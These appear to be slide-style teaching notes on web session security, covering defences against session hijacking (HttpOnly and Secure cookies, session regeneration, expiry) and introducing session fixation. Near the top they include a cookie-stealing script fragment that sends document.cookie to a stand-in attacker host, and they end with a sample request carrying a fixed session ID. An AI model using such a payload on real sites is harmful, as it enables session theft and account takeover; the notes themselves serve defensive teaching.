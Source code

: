 ``` 'http://hacker.com?steal=' + document.cookie ```
  * expect all requests to be from same IP as log-in - if not, prompt to log-in 
    again

  * **buggy**
    * IP of legitimate users may change if they move between APs or cellphone 
      towers
    * multiple computers sharing the same IP adress - corporate, coffe shops...

---

####better

* **HttpOnly cookies**

* **Regenerate session identifier periodically, at key points**

    * Especially important **after log in**

* **Expire/remove old session files regularly**

    * Keep track of last activity in session and expire sessions without any 
      recent 

    * e.g. 'last updated' time of a file or record in a dbs

---

####BEST

**SSL with Secure cookies**

  * log in and all transactions are over SSL

  * small performance penalty 

--------------------------------------------------------------------------------
Session fixation
--------------------------------------------------------------------------------

= Trick a user into using a hacker-provided session ID - instead of stealing it

Used to (same as session hijacking)

  * assume your identity and logged in status

  * steal personal info, change password

Successful if user authenticates a known session identifier

```
GET /login HTTP/1.1
Host: yourbank.com
Cookie: SESSION_ID=3e1234ra4def8aef9472c
